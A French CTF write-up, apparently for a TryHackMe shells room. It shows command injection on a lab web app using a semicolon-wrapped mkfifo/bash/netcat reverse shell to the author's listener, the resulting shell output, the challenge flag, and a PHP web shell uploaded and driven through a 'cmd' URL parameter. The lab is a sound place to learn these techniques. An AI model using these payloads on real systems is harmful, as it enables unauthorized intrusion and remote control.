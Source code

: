 **Réponse :** `web shell`

### Task 8 - Practical Task

Maintenant nous allons pratiquer, voici les indices qu'on a :

- `10.10.40.201:8080` hosts the landing page
- `10.10.40.201:8081` hosts the web application that is vulnerable to command injection.
- `10.10.40.201:8082` hosts the web application that is vulnerable to an unrestricted file upload.

Ok bon en premier mettons en place notre écouteur avec `nc -lvnp 4444` et testons.... longtemps après j'ai compris que c'était un prompt qui était sûrement appelé comme ceci : `ping -c 1 ma_commande` donc sur Linux ce qu'on peut faire pour exécuter plusieurs commandes à la suite c'est de mettre un `;` à la fin

Donc on doit encadrer notre commande avec des `;` pour qu'elle soit bien exécutée et ensuite j'ai testé avec les premières commandes qu'on nous a données comme exemple et celle-ci a marché : `; rm /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/bash -i 2>&1 | nc 10.9.0.43 4444 > /tmp/f ;` j'ai bien sûr changé le port et l'IP

Ensuite voici ce que le netcat a affiché

```bash
┌──(omnimessie㉿omnimessie)-[~]
└─$ nc -lvnp 4444
listening on [any] 4444 ...
connect to [10.9.0.43] from (UNKNOWN) [10.10.40.201] 44382
bash: cannot set terminal process group (1): Inappropriate ioctl for device
bash: no job control in this shell
www-data@dbbcdcd6eac7:/var/www/html$ ls
ls
hello.txt
index.php
style.css
```

Donc j'étais bien rentré dans la machine, mais je n'étais pas au bon endroit car dans l'énoncé il était dit que le flag se trouvait dans `/` donc j'ai fait `cd /` et ensuite `cat flag.txt`

**Réponse :** `THM{0f28b3e1b00becf15d01a1151baf10fd713bc625}`

**Using a web shell, exploit the unrestricted file upload vulnerability and get a shell. What is the content of the flag saved in the / directory?**

Maintenant on passe sur les web shells, sur le port `8082` et c'est une page où on peut mettre des fichiers, donc nous allons faire le nôtre en PHP pour commencer.

J'ai pris le script le plus basique pour faire un web shell en PHP donné en exemple sur la task 7, je l'ai injecté dans le site avec le nom `shell.php`.

Une fois le fichier sur le site nous devons aller le chercher nous-même, l'activer en quelque sorte, et pour ce faire nous devons aller là où les fichiers se téléchargent pour un site web, c'est-à-dire le `/uploads/` suivi du nom de notre fichier `/uploads/shell.php`

Une fois qu'on est sur cette URL nous apercevons une page blanche, ce qui est normal car maintenant dans l'URL nous pouvons exécuter des commandes comme ceci avec le flag `cmd` → `http://10.10.40.201:8082/uploads/shell.php?cmd=whoami`
